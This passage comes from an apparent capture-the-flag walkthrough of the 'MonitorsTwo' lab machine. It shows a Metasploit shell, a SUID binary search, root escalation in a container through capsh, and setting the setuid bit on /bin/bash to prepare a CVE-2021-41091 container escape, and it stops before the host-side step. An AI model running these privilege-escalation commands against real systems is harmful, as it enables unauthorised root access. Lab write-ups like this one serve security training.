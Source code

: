 ```shell
msfconsole -q -r ./monitorstwo.rc
```

The shell do not pop every time, and the command have to be executed a few times befors having a shell.

```text
meterpreter > shell
Process 353 created.
Channel 1 created.
```

From here, we need a way to escalade from current user to root user. Searching for SUID binaries :

```shell
find / -perm -4000 2>/dev/null
```

result:

```text
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

`/sbin/capsh` is unusual, and there is a reference in [GTFOBins : capsh](https://gtfobins.github.io/gtfobins/capsh/). We can exploit this to gain a previlege access :

```shell
$ /sbin/capsh --gid=0 --uid=0 --
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

We now have a root shell in the container.

From CVE-2021-41091 PoC, we could set the setuid bit on `/bin/bash` with the following command: `chmod u+s /bin/bash`. This will then be exploited from the host:

```shell
ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

chmod u+s /bin/bash

ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Back to the host shell via SSH:

